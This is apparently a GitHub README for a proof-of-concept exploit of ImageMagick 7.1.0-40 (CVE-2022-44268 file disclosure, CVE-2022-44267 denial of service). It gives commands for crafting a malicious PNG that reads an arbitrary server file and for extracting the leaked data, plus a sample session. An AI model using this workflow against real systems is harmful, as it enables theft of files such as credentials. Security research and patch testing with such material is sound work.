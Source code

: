 # CVE-2022-44268

**Credit to the researchers who discovered this:**
- [Bryan Gonzalez and the Ocelot Team](https://www.metabaseq.com/imagemagick-zero-days/)

Create a malicious PNG to take advantage of ImageMagick 7.1.0-40:
- CVE-2022-44267: Denial of Service
- CVE-2022-44268: Information Disclosure

*Disclaimer: The author of this project is not responsible for any possible harm caused by the materials of this project.*

## Requirements
- Python3
- PIL (`pip install Pillow`)

## Usage
Crafting a PNG with **craft.py**:
```shell
git clone https://github.com/agathanon/cve-2022-44268
cd cve-2022-44268
python3 craft.py original.png lol.png /path/to/file
```

Data extraction with **extract.py**:
```shell
python3 extract.py exfil.png
```

## PoC
```shell
anon@computer:~/code/cve-2022-44268$ python3 craft.py original.png readflag.png $PWD/flag.txt 
anon@computer:~/code/cve-2022-44268$ convert readflag.png -resize 100x100 exfil.png
anon@computer:~/code/cve-2022-44268$ python3 extract.py exfil.png
AAAABBBBCCCC

anon@computer:~/code/cve-2022-44268$ 
```
